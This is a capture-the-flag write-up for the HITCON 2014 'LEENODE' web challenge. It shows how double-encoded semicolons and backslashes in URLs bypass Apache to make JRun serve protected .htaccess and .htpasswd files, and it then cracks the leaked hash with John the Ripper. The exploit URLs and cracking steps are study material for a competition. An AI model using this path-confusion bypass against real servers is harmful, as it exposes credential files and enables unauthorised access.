 # HITCON CTF 2014: LEENODE

**Category:** Web
**Points:** 250
**Description:**

> http://203.66.57.98/

## Write-up

[Source](https://wiki.mma.club.uec.ac.jp/CTF/Writeup/HITCON2014/LEENODE) (Modified only slightly for grammar and Markdown formatting)

1. Perhaps what we need to do is access the `/admin/`` directory.
2. The server is Apache/2.0.65 (Unix) JRun/4.0 Server.
3. `*.jsp` was redirected to JRun Server.
*  [http://203.66.57.98/a.jsp](http://203.66.57.98/a.jsp)
4. A vulnerability for JRun exists publicly
* [http://www.kb.cert.org/vuls/id/977440](http://www.kb.cert.org/vuls/id/977440)
5. [http://203.66.57.98/a;.jsp](http://203.66.57.98/a;.jsp) gives a 500 Internal Server Error. Interestingly enough Apache serves up this error, not JRun as expected.
6. Escaping the URL for Apache as such [http://203.66.57.98/a%253b.jsp](http://203.66.57.98/a%253b.jsp) gives a 404 Error by JRun instead of the expected Apache.
7. Apache blocks many attempts to read `/.htaccess` and `/admin/.htaccess` so other tricks are needed.
8. It is discovered that JRun recognizes backslash as a directory separator as [http://203.66.57.98/.%5Ca%253b.jsp](http://203.66.57.98/.%5Ca%253b.jsp) was handled as /a by JRun.
9. Eventually `/admin/.htaccess` and `/admin/.htpasswd` are read using the following URLs respectively
[http://203.66.57.98/.%5Cadmin%5C.htaccess%253b.jsp](http://203.66.57.98/.%5Cadmin%5C.htaccess%253b.jsp)
[http://203.66.57.98/.%5Cadmin%5C.htpasswd%253b.jsp](http://203.66.57.98/.%5Cadmin%5C.htpasswd%253b.jsp)

`.htaccess` reads as follows:

```
AuthName "Restricted Area"
AuthType Basic
AuthUserFile /usr/local/apache2/htdocs/admin/.htpasswd
AuthGroupFile /dev/null
require valid-user
```

`.htpasswd` reads as follows:


```
hitc0n_1een0de:nlGc3XNhkrL1o
```

10. Let’s use John the Ripper to crack the password:

```
% john .htpasswd
ktw2z            (hitc0n_1een0de)
guesses: 1  time: 0:00:01:13 DONE (Sat Aug 16 20:58:25 2014)  c/s: 5319K  trying: ktkcK - kk4iT
```

The password is `ktw2z`.

11. Visit [http://203.66.57.98/admin/thefl4g.txt](http://203.66.57.98/admin/thefl4g.txt) and get the flag

```
The flag is HITCON{u_d0nt_f0rg3t_d0uble_3nc0ding!}
```

## Other write-ups

* none yet
